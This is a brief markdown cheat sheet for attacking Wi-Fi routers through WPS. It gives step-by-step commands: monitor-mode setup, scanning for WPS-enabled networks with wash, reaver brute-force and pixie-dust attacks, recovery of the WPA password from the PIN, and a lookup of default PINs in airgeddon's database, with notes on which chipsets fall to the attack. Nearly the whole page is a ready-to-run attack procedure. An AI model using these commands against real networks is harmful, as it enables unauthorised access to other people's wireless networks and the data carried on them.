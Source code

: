 ### Normal setup

```text
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
sudo iw dev
```
#### Create Monitor Mode Device

```text
sudo ip link set wlan0 down
sudo iw dev wlan0 interface add wlan0mon type monitor
sudo ip link set wlan0mon up					            
```

### Check for networks with wps available
```text
wash -i wlan0mon
```

```text
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### Attacks to retrieve the pin

#### standard attack
```text
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv
```

#### pixie dust offline attack - (-K 1)
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1
```

### Resolve password from pin
```text
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678
```

#### Notes
success running this attack against Ralink and RealTek chipsets. And very spotty success against Broadcom chipsets
```text
sudo reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
#### Airgeddon - Known Pins
```text
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}	#first three parts of the BSSID CODE
echo /usr/share/airgeddon/known_pins.db ${PINDB["0013F7"]} 
grep "0013F7" /usr/share/airgeddon/known_pins.db
```

https://kalitut.com/wifi-attack-with-wps-using-reaver/

https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/

